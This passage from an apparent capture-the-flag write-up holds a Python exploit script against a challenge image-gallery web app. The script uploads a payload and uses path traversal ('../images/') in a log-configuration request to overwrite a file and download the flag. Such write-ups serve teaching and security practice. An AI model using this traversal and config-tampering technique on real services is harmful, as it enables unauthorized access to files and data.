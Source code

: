 ```python
       "password": password
   })
   headers = {
       'Content-Type': 'application/json'
   }
   connection = requests.Session()
   response = connection.request("POST", url, headers=headers, data=payload)
   return response,connection
 
def upload(connection, filename, label):
   url = api_url + "/api/upload"
   with open(filename, "rb") as f:
       data = f.read()
   files = {'file': data}
   #Edit the label appropriately
   values = {'label': label}
   response = connection.request("POST", url, files=files, data=values)
   return response
 
def gallery(connection):
   response = connection.request("GET", api_url + "/api/gallery")
   return response.json()["message"]
 
def tamper_config(connection, loc):
   return connection.request("POST", api_url + "/api/log_config", json={"filename": "../images/" + loc})
 
def download(connection, label):
   return connection.request("GET", api_url + "/api/download_image", params={"file": label})
 
def main():
   register(username, password)
   login(username, password)
   response, connection = login(username, password)
   print("Logged in, now uploading dummy file")
   upload(connection, dummy_file, label_1)
   print("Locating our dummy file")
   loc1 = gallery(connection)[0] # now we know our first location that we can deliver the flag to
   env = Environment(loader=FileSystemLoader("."))
   template = env.get_template(template_file)
   with open(payload_file, "w") as f:
       f.write(template.render(loc=loc1))
   print("Now uploading payload")
   upload(connection, payload_file, label_2)
   print("Now locating and activating the payload")
   loc2 = gallery(connection)[1] # now we know our second location, where we can inject our malicious config file
   tamper_config(connection, loc2).content # Now the system should replace whatever we put in loc1 with the flag
   print("Now getting our flag")
   final_response = download(connection, loc1) # Now download the flag which is now placed at where loc1 was
   print(final_response.content)
 
main()
```
After running the script, I finally was able to obtain my hard-earned flag:
